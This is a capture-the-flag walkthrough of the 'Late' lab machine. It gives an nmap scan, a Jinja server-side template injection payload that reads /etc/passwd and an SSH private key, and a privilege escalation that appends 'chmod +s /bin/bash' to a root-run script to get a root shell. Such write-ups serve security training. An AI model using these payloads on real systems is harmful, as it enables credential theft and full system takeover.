# Late CTF

Late is a CTF that focusses on OCR recognition, Enumeration of existing vulnerabilities and a bit of focus on processes.

## Enumeration

We start off with a nmap scan with the following command:
```
nmap -Pn -sV -sC -v <TARGET_IP>
```



Here, we see the `images.late.htb` domain (You can see this domain in the website too, but its convenient to work with it here). Add an entry to your `/etc/hosts` like this:

```
10.10.11.156	images.late.htb
```

Navigate to `images.late.htb` and we see this:

 

This seems like some form of OCR technology made with Flask. Flask is a web framework written in Python and depends on Jinja (A templating engine). We can test out the web page out by trying the following image and looking at the output we get.	

### Payload:



### Result:



This output shows that the result is shown in some form of HTML format. Python can be executed in an HTML file with the `{{ expression }}` format. A little enumeration on Jinja and Flask tells us about an SSTI (Server Side Template injection) vulnerability which allows Python code to be executed when in the formerly mentioned format. A proof of concept would be a payload as such:

### Payload:



### Result:



While this does prove that code can be remotely executed, we can't do any form of imports or direct commands as jinja simply does not execute them. We can only execute code using builtin methods. Here we start looking for SSTI payloads. We can find payloads on this website: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

## Exploit

For the exploit, we will be using this payload:

```
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

Payload:



Result:



Here, the most important entry is:

> `svc_acc:x:1000:1000:Service Account:/home/svc_acc:/bin/bash`

We can also try to get the private key using this payload:

### Payload:



### Results:



Now what we have a private key, we can remove the `<p>` and `</p>` tag and do a `chmod 600 <file>` and make it useable for SSH.

SSH command will look like this:

```
ssh -i id_rsa svc_acc@10.10.11.156
```

We can get user.txt with `cat user.txt`

## Privilege Escalation

Start off by running linPEAS.sh (You can host a http.server and bring linPEAS from your machine to the target machine)



Here, the most interesting file is `/usr/local/sbin` which has the `ssh-alert.sh` file. Use `cat ssh-alert.sh` and we see that it is some form of ssh alert. 



We can check how the it is executed with the pspy64 (https://github.com/DominicBreuker/pspy). Get the binary onto the target machine with a http server and run it. At the same time, try to make another SSH session.



Here we can see that the file is run as root, so we can add some malicious code to run on it to take advantage of, like this:

```
echo "chmod +s /bin/bash" >> ssh-alert.sh
```
And try to log in again

You can get the root shell with `bash -p` and the flag can be found with `cat /root/root.txt`.

